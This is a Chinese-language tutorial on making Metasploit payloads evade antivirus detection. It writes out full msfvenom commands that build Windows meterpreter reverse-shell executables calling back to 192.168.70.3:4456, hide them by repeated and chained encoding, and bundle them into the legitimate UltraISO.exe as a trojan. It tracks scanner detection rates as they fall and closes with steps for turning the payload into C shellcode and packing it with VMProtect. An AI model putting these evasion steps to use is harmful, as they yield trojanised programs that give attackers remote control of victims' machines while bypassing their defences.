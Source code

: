 1. 杀软是如何检测出恶意代码的？

   ​	特征码、启发式恶意软件检查和行为。

2. 免杀是做什么？

   ​	对特征进行混淆，打乱代码，避免杀毒软件查杀

3. 免杀的基本方法有哪些？

   ​	自编码处理  自捆绑+编码  多重编码   接口下载式  签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

改变特征码
改变行为
其它

由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果

要用到的在线查毒工具virscan提供

https://www.virscan.org/

# 一、不处理payload直接生成样本进行检测

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -f exe -o payload1.exe
```

![1645511560404](https://image.201068.xyz/assets/1645511560404.png)

进行查毒有41%的杀毒软件报毒了

具体查毒结果链接：

https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9

![1645511550808](https://image.201068.xyz/assets/1645511550808.png)

# 二、 MSF自编码处理payload生成样本进行检测

首先我们输入   `msfvenom --list encoders`   查看可以用编码模块

![1645511543145](https://image.201068.xyz/assets/1645511543145.png)

我们使用  `x86/shikata_ga_nai` 模块 免杀中使用频率最高的一个编码器

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.70.3  LPORT=4456 -f exe -o payload1.exe
```

进行查毒有37%的杀毒软件报毒了

![1645511533351](https://image.201068.xyz/assets/1645511533351.png)

# 三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的**-x参数可以指定一个可执行文件**,将payload与其捆绑

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -x UltraISO.exe -f exe -o payload2.exe
```

![1645511525813](https://image.201068.xyz/assets/1645511525813.png)

进行查毒有37%的杀毒软件报毒了

![1645511516751](https://image.201068.xyz/assets/1645511516751.png)

# 四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 10 -f exe -o payload3.exe
```

![1645511507586](https://image.201068.xyz/assets/1645511507586.png)

进行查毒有31%的杀毒软件报毒了

![1645511497457](https://image.201068.xyz/assets/1645511497457.png)

那我们**继续增加编码次数**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 20 -f exe -o payload4.exe
```

进行查毒有27%的杀毒软件报毒了!

![1645511487704](https://image.201068.xyz/assets/1645511487704.png)

# 五、MSF多重编码payload生成样本进行检测

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，**先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码**，最后才生成**以UltraISO.exe为模板**的可执行文件payload5.exe。

```
msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.70.3 LPORT=4456 -f raw | msfvenom -p windows/meterpreter/reverse_tcp -e x86/alpha_upper -i 10 -f raw | msfvenom -p windows/meterpreter/reverse_tcp -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe
```



# 六、 生成Shellcode使用C语言调用

1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -f c >c0001.c
```

![1645511458128](https://image.201068.xyz/assets/1645511458128.png)

2、改c文件，并编译，并加壳

![1645511469800](https://image.201068.xyz/assets/1645511469800.png)

随便写一个hello world

```
main() {
printf("hello world\n");
}
```

然后编译 并加壳

**vmp**加壳工具
